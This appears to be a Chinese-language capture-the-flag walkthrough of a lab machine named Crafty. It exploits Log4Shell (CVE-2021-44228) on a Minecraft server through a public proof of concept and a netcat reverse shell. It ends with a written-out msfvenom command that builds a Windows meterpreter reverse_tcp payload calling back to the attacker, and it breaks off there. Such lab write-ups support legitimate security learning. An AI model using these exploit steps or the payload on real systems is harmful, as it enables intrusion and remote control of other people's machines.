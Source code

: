 Crafty Level:Easy
===
尋找user.txt
---
    1.執行Nmap蒐集資訊
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcb9fa95-f96f-4688-88d0-ef140cf168a6)

    2.目錄列舉，發現一個js資料夾是403

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f5b4d0b6-d52e-48ea-9c03-ed9bf1a63722)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/711cd664-28f2-46c3-b9ab-72df376aa95f)

    3.在使用dirbuster列舉，發現js資料夾裡面有main.js

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5673fc1-5556-4cf8-ad8b-2bd90a58b769)

    4.開啟main.js，有一段內容引人注目
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a3c42d5c-3937-4ac7-982e-0e4bf796c188)

這段程式碼主要功能是取得和顯示一個遊戲伺服器上的線上玩家數量。大概指的是mc伺服器，它透過定期查詢一個外部API來實現這一點，裡面運用了**updatePlayercount函數，**先是向https://api.bybilly.uk/api/players/${ip}/ ${port}發送一個GET請求，查詢指定IP和端口的遊戲伺服器的在線玩家數量，如果返回的是online，則顯示在.sip裡面，如果不返回online，說明斷線了，然後會在.playercount中顯示相應的信息，並使用setInterval設置一個定時器，每60秒調用一次updatePlayercount函數以定期更新玩家數量，裡面的是25565端口值得是mc的默認端口，這次利用log4j的poc來反彈shell，這次利用的是CVE-2021-44228編號的poc（也稱為Log4Shell漏洞）

    5.找到Log4Shell POC，執行前先下載jdk並變更檔名為jdk1.8.0_20
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc)

[jdk](https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/216407a1-9d28-4028-87dd-07ea685ce016)

    6.修改poc.py，因系統為Windows所以改成cmd.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6fd8f14f-7aa9-4cac-afb0-e598f6603cd4)

    7.執行poc.py，會產生一組LDAP位置

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/066b4a78-ee68-4dd8-9260-763098dc1745)

    8.下載mc工具
[mc工具](https://github.com/ammaraskar/pyCraft)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b7d546bd-d42f-483b-81d7-24f192eb4cc6)

    9.執行mc工具，出現連接後輸入LDAP位置
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db107bb6-81f3-4335-9ff5-21535330d8af)

    10.log4j會出現200，nc就會成功反彈shell

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/908cdb72-8770-4997-bf80-6b79d9b29319)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/23f5dcf6-c18b-458d-8d54-4c19a9c83522)

    11.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e333a12-f6d2-49c3-ae1c-69e2aaae7af8)

尋找root.txt
---
    12.在plugins底下發現有一個.jar的檔案，需下載檢查內容

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9510f70e-68d6-4bef-91e8-24460b8e0326)

    13.使用msf建立一個reverse shell
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o expl.exe
